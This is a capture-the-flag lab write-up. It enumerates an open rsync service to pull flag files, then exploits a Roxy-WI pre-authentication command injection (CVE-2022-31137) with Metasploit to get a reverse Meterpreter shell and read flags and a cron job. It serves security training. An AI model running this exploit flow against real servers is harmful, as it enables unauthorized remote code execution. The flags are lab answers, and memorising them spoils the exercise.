

## Tasks



## target1.ine.local — Enumeration

```
nmap -sCV target1.ine.local
```

```
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

---
## Flag 1

> _Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting._

The server operator hid the flag inside the module's description field.

```
rsync -av rsync://target1.ine.local
```

```
backupwscohen   FLAG1_598ad3d689814e1b8007ca825b4bf114
```

```
FLAG1_598ad3d689814e1b8007ca825b4bf114
```

---
## Flag 2

> _The files on the RSYNC server hold valuable information. Explore the contents to find the flag._

With the module name in hand, we can list and pull its contents.

```
rsync -av rsync://target1.ine.local/backupwscohen
```

```
drwxr-xr-x          4,096 2026/06/07 17:42:45 .
-rw-r--r--             20 2024/10/28 15:05:40 TPSData.txt
-rw-r--r--             25 2024/10/28 15:05:40 office_staff.vhd
-rw-r--r--             39 2026/06/07 17:42:45 pii_data.xlsx
```

Downloading and reading it:

```
rsync -av rsync://target1.ine.local/backupwscohen/pii_data.xlsx .
cat pii_data.xlsx
```

```
FLAG2_072e5bb2eaa0480f9994e968303d3188
```


---
## target2.ine.local — Enumeration

```
nmap -sC -sV target2.ine.local
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Roxy-WI
443/tcp open  ssl/http Apache httpd 2.4.52
|_http-title: Roxy-WI
| ssl-cert: Subject: commonName=*.roxy-wi.org/organizationName=Roxy-WI
Service Info: Host: roxy-wi.example.com
```

Both ports serve **Roxy-WI**, a web-based management panel for HAProxy and Nginx.

---
## Flag 3

> _Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local._

Roxy-WI versions prior to 6.1.1.0 contain a pre-authentication command injection vulnerability (CVE-2022-31137). The application passes user-supplied input directly to a shell command without sanitisation, and critically, it does so before any login check.

```
msf6 > search roxy-wi

0  exploit/linux/http/roxy_wi_exec  2022-07-06  excellent  Yes  Roxy-WI Prior to 6.1.1.0 Unauthenticated Command Injection RCE
```

```
msf6 > use exploit/linux/http/roxy_wi_exec
msf6 exploit(...) > set rhosts target2.ine.local
msf6 exploit(...) > set lhost eth1
msf6 exploit(...) > run
```

```
[*] 192.121.18.4:443 is vulnerable!
[*] Meterpreter session 1 opened (192.121.18.2:4444 -> 192.121.18.4:42386)
```

```
meterpreter > shell
www-data@target2:/var/www/haproxy-wi/app$ cat /flag.txt
FLAG3_dbbe3c3bf73c4fed8d989dded87b581f
```

```
FLAG3_dbbe3c3bf73c4fed8d989dded87b581f
```

---
## Flag 4

> _Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag._

Checking the drop-in cron directory reveals a non-standard entry:

```
www-data@target2:/var/www/haproxy-wi/app$ ls -la /etc/cron.d/
```

```
-rw-r--r-- 1 root root  201 Jan  8  2022 e2scrub_all
-rw-r--r-- 1 root root   65 Jun  7 12:12 www-data-cron
```

```
www-data@target2:/var/www/haproxy-wi/app$ cat /etc/cron.d/www-data-cron
* * * * * www-data echo "FLAG4_6060815dff324f7b856fa03b45125dd6"
```

The flag is embedded directly in the cron job command.

```
FLAG4_6060815dff324f7b856fa03b45125dd6
```

---
## Summary

|#|Target|Technique|Flag|
|---|---|---|---|
|1|target1|Unauthenticated rsync module banner enumeration|`FLAG1_598ad3d689814e1b8007ca825b4bf114`|
|2|target1|Unauthenticated rsync file download|`FLAG2_072e5bb2eaa0480f9994e968303d3188`|
|3|target2|Roxy-WI pre-auth RCE (CVE-2022-31137)|`FLAG3_dbbe3c3bf73c4fed8d989dded87b581f`|
|4|target2|Cron job inspection (`/etc/cron.d`)|`FLAG4_6060815dff324f7b856fa03b45125dd6`|